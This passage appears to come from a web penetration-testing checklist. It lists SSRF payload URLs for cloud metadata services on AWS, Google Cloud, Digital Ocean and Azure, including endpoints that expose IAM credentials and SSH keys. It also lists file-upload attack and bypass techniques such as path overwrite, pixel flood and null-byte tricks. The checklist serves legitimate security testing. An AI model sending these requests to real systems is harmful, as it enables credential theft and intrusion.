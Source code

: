             ```markup
            http://instance-data
            http://169.254.169.254
            http://169.254.169.254/latest/user-data
            http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
            http://169.254.169.254/latest/meta-data/
            http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
            http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
            http://169.254.169.254/latest/meta-data/ami-id
            http://169.254.169.254/latest/meta-data/reservation-id
            http://169.254.169.254/latest/meta-data/hostname
            http://169.254.169.254/latest/meta-data/public-keys/
            http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
            http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
            http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
            http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
            http://169.254.169.254/latest/dynamic/instance-identity/document
            ```
            
        - Google Cloud
            
            ```markup
            http://169.254.169.254/computeMetadata/v1/
            http://metadata.google.internal/computeMetadata/v1/
            http://metadata/computeMetadata/v1/
            http://metadata.google.internal/computeMetadata/v1/instance/hostname
            http://metadata.google.internal/computeMetadata/v1/instance/id
            http://metadata.google.internal/computeMetadata/v1/project/project-id
            ```
            
        - Digital Ocean
            
            ```markup
            curl http://169.254.169.254/metadata/v1/id
            http://169.254.169.254/metadata/v1.json
            http://169.254.169.254/metadata/v1/ 
            http://169.254.169.254/metadata/v1/id
            http://169.254.169.254/metadata/v1/user-data
            http://169.254.169.254/metadata/v1/hostname
            http://169.254.169.254/metadata/v1/region
            http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
            ```
            
        - Azure
            
            ```
            http://169.254.169.254/metadata/v1/maintenance
            http://169.254.169.254/metadata/instance?api-version=2017-04-02
            http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
            ```
            
    - [ ]  Bypassing via open redirection
- **File Upload Testing**
    - [ ]  upload the malicious file to the archive upload functionality and observe how the application responds
    - [ ]  upload a file and change its path to overwrite an existing system file
    - [ ]  Large File Denial of Service
    - [ ]  Metadata Leakage
    - [ ]  ImageMagick Library Attacks
    - [ ]  Pixel Flood Attack
    - Bypasses
        - [ ]  Null Byte (%00) Bypass
        - [ ]  Content-Type Bypass
        - [ ]  Magic Byte Bypass
        - [ ]  Client-Side Validation Bypass
        - [ ]  Blacklisted Extension Bypass